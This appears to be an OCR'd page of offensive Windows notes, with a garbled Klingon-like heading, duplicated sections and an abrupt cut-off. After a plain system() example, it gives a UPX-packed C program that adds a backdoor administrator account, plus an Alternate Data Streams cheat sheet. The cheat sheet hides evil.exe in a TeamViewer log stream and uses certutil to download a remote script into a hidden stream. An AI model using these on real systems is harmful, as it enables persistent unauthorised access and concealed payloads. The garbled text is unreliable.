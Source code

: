 ## CMD jatlh C code laH

To call CMD from C code, you can use the `system()` function provided by the C standard library. This function allows you to execute a command in the command prompt.

Here is an example of how you can call CMD from C code:

```c
#include <stdlib.h>

int main() {
    system("cmd /c <command>");
    return 0;
}
```

Replace `<command>` with the command you want to execute in CMD. The `/c` flag is used to execute the command and then terminate CMD.

Compile and run the C code, and it will execute the specified command in CMD. Make sure to handle any output or errors that may be generated by the command.
```c
#include <stdlib.h>     /* system, NULL, EXIT_FAILURE */

// When executed by Administrator this program will create a user and then add him to the administrators group
// i686-w64-mingw32-gcc addmin.c -o addmin.exe
// upx -9 addmin.exe

int main (){
int i;
i=system("net users otherAcc 0TherAcc! /add");
i=system("net localgroup administrators otherAcc /add");
return 0;
}
```
## Alternate Data Streams CheatSheet (ADS/Alternate Data Stream)

**Examples taken from [https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f](https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f). There are a lot more in there!**

## Alternate Data Streams CheatSheet (ADS/Alternate Data Stream)

**Examples taken from [https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f](https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f). There are a lot more in there!**
```bash
## Selected Examples of ADS Operations ##

### Adding Content to ADS ###
# Append executable to a log file as an ADS
type C:\temp\evil.exe > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:evil.exe"
# Download a script directly into an ADS
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/Moriarty2016/git/master/test.ps1 c:\temp:ttt

### Discovering ADS Content ###
# List files and their ADS
dir /R
# Use Sysinternals tool to list ADS of a file
streams.exe <c:\path\to\file>

### Extracting Content from ADS ###
# Extract an executable stored in an ADS
```